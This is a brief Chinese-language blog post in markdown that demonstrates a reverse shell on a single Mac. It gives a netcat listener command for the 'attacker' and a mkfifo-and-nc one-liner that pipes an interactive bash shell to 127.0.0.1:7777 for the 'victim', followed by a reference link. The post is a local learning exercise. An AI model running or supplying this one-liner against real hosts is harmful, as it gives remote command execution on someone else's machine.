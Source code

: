 ```yaml
---
layout: post
title: 反弹shell
categories: [安全]
---
```

反弹shell（reverse shell)

## mac下单机模拟反弹shell

- 攻击机
  通过netcat建立反弹shell,待受害机建立链接后，通过bash shell远程执行命令
```
nc -lv 7777
```

- 受害机
  ```
  mkfifo myfifo
  nc 127.0.0.1 7777 < myfifo | /bin/bash  -i > myfifo  2>&1
  ```


## 参考
[mac reverse shell](https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra)